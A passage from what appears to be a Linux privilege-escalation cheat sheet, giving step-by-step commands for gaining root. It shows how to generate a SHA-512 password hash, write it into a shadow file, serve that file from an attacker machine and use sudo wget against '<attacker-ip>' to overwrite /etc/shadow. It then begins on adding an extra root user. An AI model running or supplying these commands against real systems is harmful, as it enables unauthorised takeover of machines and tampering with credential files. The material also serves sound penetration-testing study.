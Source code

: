         ```sh
        openssl passwd -6 -salt salt password
        ```

        Copy a generated password and paste it at the root's password to shadow file.

        ```sh
        vim shadow.txt
        ```

        As a result, the contents of shadow.txt should look like this:

        ```sh
        root:$6$salt$IxDD...DCy.g.:18195:0:99999:7:::
        ...
        ```

    6. **Start Web Server in Local Machine**

        ```sh
        python3 -m http.server 8000
        ```

    7. **Download Shadow File as /etc/shadow in Remote Machine**

        Run **wget** as root privileges.

        ```sh
        sudo /usr/bin/wget http://<attacker-ip>:8000/shadow.txt -O /etc/shadow 
        ```

        You can switch to root user.

        ```sh
        su root
        ```

<br />

## Update Sensitive Information

1. **Change Password of Current User**

    You need to know the current user's password.

    ```sh
    echo -n '<current-password>\n<new-password>\n<new-password>' | passwd
    ```

2. **Add Another Root User to /etc/shadow**

    1. **Generate New Password**

        ```sh
        # -6: SHA512
        openssl passwd -6 -salt salt password
        ```
